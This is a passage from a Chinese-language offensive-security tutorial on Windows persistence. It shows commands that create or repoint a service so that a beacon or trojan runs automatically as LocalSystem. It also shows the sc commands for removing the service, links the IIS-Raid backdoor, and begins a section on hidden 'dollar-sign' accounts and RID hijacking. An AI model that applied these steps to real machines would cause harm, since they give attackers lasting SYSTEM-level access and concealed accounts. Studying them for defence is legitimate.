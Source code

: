 创建完后查看服务发现是默认以 LocalSystem 账户登录的。唯一的缺陷是描述是空的显突兀。

```plaintext
C:\Users\123>SC qc ServicePrivilegeEscalation
[SC] QueryServiceConfig 成功

SERVICE_NAME: ServicePrivilegeEscalation
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Users\123\Desktop\beaconsrv.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Service Persistence
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

2.修改先有服务

找一个已禁用的服务，直接修改 binpath= 现有服务的可执行文件路径指向我们的木马，修改启动模式 start= 让其自启动，修改启动服务的用户 obj= 为 SYSTEM。

```plaintext
SC CONFIG ServicePrivilegeEscalation binpath= "\"E:\program files\sub dir\program name.exe\"" start= auto obj= "LocalSystem"
```

3.恢复原状

在不需要维持的时候，停止并删除服务。或者恢复原有配置。

```plaintext
sc stop ServicePrivilegeEscalation
sc delete ServicePrivilegeEscalation
```

#### 2.6.2 IIS⚒️

[https://github.com/0x09AL/IIS-Raid](https://github.com/0x09AL/IIS-Raid)

#### 2.6.3 SQL Server⚒️

### 2.7 Create Account

本小节来看看如何既达到隐藏一个通过 RID 劫持的账户，这样即可以隐藏账户又能获得管理员 Administrator 权限，不过 RID 劫持在实战中利用，默认配置下需要 SYSTEM 权限才能操作。

#### 2.7.1 Hidden Account

国内也叫影子账户，这个技术很古早，单拎出来也没多大用。

创建普通用户在用户名后面添加 Dollar 符号。

```plaintext
net user <account name>$ <password> /add
```

创建的 test 用户发现使用 net user 命令无法查询到。
